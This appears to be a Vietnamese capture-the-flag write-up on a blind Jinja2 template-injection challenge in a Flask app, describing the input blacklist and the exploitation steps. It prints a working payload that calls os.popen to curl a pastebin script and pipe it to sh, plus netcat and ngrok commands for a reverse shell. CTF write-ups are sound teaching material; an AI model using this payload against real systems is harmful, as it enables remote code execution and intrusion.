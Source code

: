 ```python
if __name__ == "__main__":
    app.run(host='0.0.0.0', port=59073)
```

Sau khi đọc source xong thì em thấy rằng server đã filter những ký tự `blacklist = ['{{','}}','{%','%}','import','eval','builtins','class','[',']']`

Nhưng lại nối các input của em lại với nhau ở: `{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv`

Vì bài này là blind nên em sẽ thêm print vào source có để xem mail được gửi đi như thế nào và em thu được kết quả:

![](https://i.imgur.com/8UGhtLC.png)

### Khai thác

Đầu tiên em `nc -lvnp 1337` để lắng nghe port 1337

![](https://i.imgur.com/xRNjcBf.png)

Tiếp thep em dùng `ngrok tcp 1337` để tạo mở cổng tcp từ port 1337 ra bên ngoài

![](https://i.imgur.com/a0mIOcO.png)

Tiếp theo là em copy port được tạo ra bởi ngrok (14673) rồi lên https://www.revshells.com/ để tạo reverse shell

Sau vài lần thử payload cuối cùng em tìm được:

Payload: `{{ cycler.__init__.__globals__.os.popen('curl https://pastebin.pl/view/raw/17662427|sh').read() }}`

Vì payload reverse shell dài quá nên em tạo file pastebin rồi sử dụng `curl` để lấy được đoạn shell đó, cuối dùng là `|sh` để chạy doạn shell lấy được

![](https://i.imgur.com/4ZNOiZi.png)

Và thế là đã revershell thành công, giờ em chỉ cần tìm file flag rồi cat thôi

![](https://i.imgur.com/AcM1yWn.png)


